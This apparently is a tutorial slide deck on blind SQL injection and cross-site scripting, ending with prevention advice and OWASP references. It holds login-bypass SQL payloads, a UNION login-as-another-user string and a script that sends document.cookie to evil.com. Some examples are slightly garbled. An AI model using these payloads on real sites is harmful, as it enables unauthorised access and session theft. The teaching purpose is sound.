Blind SQL injection
MySQL If Statement
IF(condition,true-part,false-part) (M)
SELECT IF(1=1,'true','false')
SQL Server If Statement
IF condition true-part ELSE false-part (S)
IF (1=1) SELECT 'true' ELSE SELECT 'false'
Oracle If Statement
BEGIN
IF condition THEN true-part; ELSE false-part; END IF; END; (O)
IF (1=1) THEN dbms_lock.sleep(3); ELSE dbms_lock.sleep(0); END IF; END;
PostgreSQL If Statement
SELECT CASE WHEN condition THEN true-part ELSE false-part END; (P)
SELECT CASE WEHEN (1=1) THEN 'A' ELSE 'B'END;
If Statement SQL Injection Attack Samples
if ((select user) = 'sa' OR (select user) = 'dbo') select 1 else select 1/0 (S)
SQL Injection
Bypassing Login Screens (SMO+)
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1--
Login as different user (SM*) :
' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--
Cross-site Scripting (XSS)
Cross-site Scripting (XSS) is a client-side code injection attack.
- Malicious JavaScript has access to all the objects that the rest of the web page has access to.
- JavaScript can read the browser DOM and make arbitrary modifications to it.
- JavaScript can use the XMLHttpRequest object to send HTTP requests with arbitrary content to arbitrary destinations.
- JavaScript in modern browsers can use HTML5 APIs. For example, it can gain access to the user’s geolocation, webcam, microphone, and even specific files from the user’s file system. Most of these APIs require user opt-in, but the attacker can use social engineering to go around that limitation.
The consequences of malicious JS
Among many other things, the ability to execute arbitrary JavaScript in another user's browser allows an attacker to perform the following types of attacks:
- Cookie theftThe attacker can access the victim's cookies associated with the website using document.cookie, send them to his own server, and use them to extract sensitive information like session IDs.
- KeyloggingThe attacker can register a keyboard event listener using addEventListener and then send all of the user's keystrokes to his own server, potentially recording sensitive information such as passwords and credit card numbers.
- PhishingThe attacker can insert a fake login form into the page using DOM manipulation, set the form's action attribute to target his own server, and then trick the user into submitting sensitive information.
Types of XSS
Criminals often use XSS to steal cookies. This allows them to impersonate the victim. The attacker can send the cookie to their own server in many ways. One of them is to execute the following client-side script in the victim’s browser:
- Persistent or Stored XSSwhere the malicious string originates from the website's database.
- Reflected XSSwhere the malicious string originates from the victim's request.
- DOM-based XSSwhere the vulnerability is in the client-side code rather than the server-side code.
Stealing Cookies Using XSS
Criminals often use XSS to steal cookies. This allows them to impersonate the victim. The attacker can send the cookie to their own server in many ways. One of them is to execute the following client-side script in the victim’s browser:
<script>
window.location="http://evil.com/?cookie=" + document.cookie
</script>
Persistent or Stored XSS
In this type of attack, the malicious code or script is being saved on the web server (For example: in the database by comment field or review field) and executed every time when the users will call the appropriate functionality. This way stored XSS attack can affect many users. Also as the script is being stored on the web server, it will affect the website for a longer time.

Reflected XSS
In a reflected XSS attack, the malicious string is part of the victim's request to the website. The website then includes this malicious string in the response sent back to the user.(For example: form login page)

DOM-based XSS
DOM-based XSS is a variant of both persistent and reflected XSS. In a DOM-based XSS attack, the malicious string is not actually parsed by the victim's browser until the website's legitimate JavaScript is executed
Methods of preventing XSS (S1)
Recall that an XSS attack is a type of code injection: user input is mistakenly interpreted as malicious program code. In order to prevent this type of code injection, secure input handling is needed. For a web developer, there are two fundamentally different ways of performing secure input handling:
- Encodingwhich escapes the user input so that the browser interprets it only as data, not as code.
<script>...</script> => <script>...</script> - Validationwhich filters the user input so that the browser interprets it as code without malicious commands.
Methods of preventing XSS (S2)
- ContextSecure input handling needs to be performed differently depending on where in a page the user input is inserted.
- Inbound/outboundSecure input handling can be performed either when your website receives the input (inbound) or right before your website inserts the input into a page (outbound).
- Client/serverSecure input handling can be performed either on the client-side or on the server-side, both of which are needed under different circumstances.
Cross-Site Scripting (XSS) Cheat Sheet
XSS Filter Evasion Cheat Sheet by owasp.org
Cross-Site Scripting (XSS) attacks
How to Review Code for Cross-site scripting Vulnerabilities by owasp.org
For to be Experting !!!
Call Me :)
@FreezeMan
THE END